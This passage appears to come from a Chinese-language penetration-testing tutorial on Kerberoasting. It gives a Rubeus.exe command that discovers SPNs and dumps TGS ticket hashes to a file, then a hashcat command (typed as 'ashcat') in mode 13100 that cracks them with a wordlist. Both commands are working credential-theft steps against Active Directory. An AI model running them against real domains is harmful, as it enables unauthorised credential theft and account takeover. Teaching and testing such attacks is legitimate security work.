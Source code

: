 ### 使用 Rubeus.exe

发现 `SPN`、提取 `TGS`、转储`HASH`存储到`hash.txt`

```bash
Rubeus.exe kerberoast /outfile:hash.txt
```

[![](assets/1708919803-bace8fa4dfd6660c406942514ffe5009.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142132-f5ca2158-ce25-1.png)

使用`hashcat`进行破解

```bash
ashcat -m 13100 --force -a 0 '/home/kali/Desktop/hash.txt' '/home/kali/Desktop/pass.txt'
```
